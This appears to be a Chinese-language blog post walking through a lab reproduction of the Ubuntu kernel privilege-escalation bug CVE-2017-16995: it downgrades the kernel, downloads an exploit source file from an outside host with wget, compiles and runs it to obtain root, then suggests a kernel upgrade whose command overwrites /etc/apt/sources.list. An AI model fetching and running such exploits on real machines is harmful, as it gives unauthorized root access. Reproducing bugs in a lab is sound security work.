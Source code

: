 ```yaml
---
title: CVE-2017-16995本地提权复现
index_img: /img/2018-05-19/index.png
date: 2018-05-19 00:18:13
tags: 
- 漏洞
- CVE
- 提权
- ubuntu
---
```

### ubuntu本地提权漏洞复现
参考资料
[Ubuntu内核提权:CVE-2017-16995漏洞复现](https://blog.csdn.net/DarkHQ/article/details/79622652)
[漏洞预警 | Ubuntu存在本地提权漏洞（附EXP及应对措施）](http://www.freebuf.com/news/165608.html)
[Linux Kernel 4.4.0 (Ubuntu 14.04/16.04 x86-64) - 'AF_PACKET' Race Condition Privilege Escalation](https://www.exploit-db.com/exploits/40871/)
<!--more-->
##### 漏洞影响版本
Linux Kernel Version 4.14-4.4
仅影响Ubuntu/Debian发行版本
##### 准备环境
查看内核版本
```
uname -r
```
![uname](/img/2018-05-19/uname.png)
搜索版本 
```
apt-cache search linux
```
![apt-cache](/img/2018-05-19/apt-cache.png)
下载4.4版本的内核
```
sudo apt-get install linux-headers-4.4.0-81-generic linux-image-4.4.0-81-generic
```
![sudo](/img/2018-05-19/sudo.png)
更换内核
```
sudo nano /boot/grub/grub.cfg
```
![nano](/img/2018-05-19/nano.png)
替换成下图
![4.4.0](/img/2018-05-19/4.4.0.png)
ctrl+o保存，ctrl+x退出，重启 
到此，环境就配置完毕
##### 验证
脚本下载
```
wget http://cyseclabs.com/pub/upstream44.c
```
![wget](/img/2018-05-19/wget.png)
编译
```
gcc -o exp upstream44.c
```
![gcc](/img/2018-05-19/gcc.png)
运行
```
./exp
```
![root](/img/2018-05-19/root.png)
可以看到前面的用户名已经从ubuntu变成了root，可以执行任何需要超级权限的命令
##### 修复建议
升级Linux Kernel 版本(需重启)
```bash
echo "deb http://archive.ubuntu.com/ubuntu/ xenial-proposed restricted main multiverse universe" > /etc/apt/sources.list && apt update && apt install linux-image-4.4.0-117-generic
```  

